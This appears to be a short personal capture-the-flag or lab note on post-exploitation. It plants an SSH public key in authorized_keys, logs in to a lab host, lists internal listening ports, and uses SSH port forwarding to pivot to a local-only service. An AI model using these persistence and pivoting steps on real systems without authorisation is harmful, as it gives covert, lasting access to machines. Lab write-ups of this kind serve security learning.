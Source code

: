 ##### gen ecdsa key

```bash
ssh-keygen -t ecdsa -b 521
```
pass path with file name *id_ecdsa*

![[Pasted image 20230919201726.png]]

##### public key to authorised_keys
with echo move public key to authorised keys

```bash
echo "ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAF8RoPKOXwQx2cl9ChH2VbZif9nsWHPE8UAMAdK7eMyUzBHvHsr9QeRmtVnO+V1nZh3q6EPW04k6mF8jbZbNTGBGAGvyQ0qMiuT68oR64ouKCqy9rro7+uWl3738G6HSqge5rv35gwwGe2ZVNlx4SsuI+PsRFSvqi09j0IuHQEqXTEbPw== splitunknown@splitunknown" >> authorized_keys
```


##### ssh to server
```bash
ssh -i key/id_ecdsa apaar@10.10.10.162
```


##### PIVOTING

```bash
netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
```

```bash
~C
ssh>
```

```bash
ssh> help
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

```ssh
ssh> -L 9001:127.0.0.1:9001
Forwarding port.
```

![[Pasted image 20230919202601.png]]
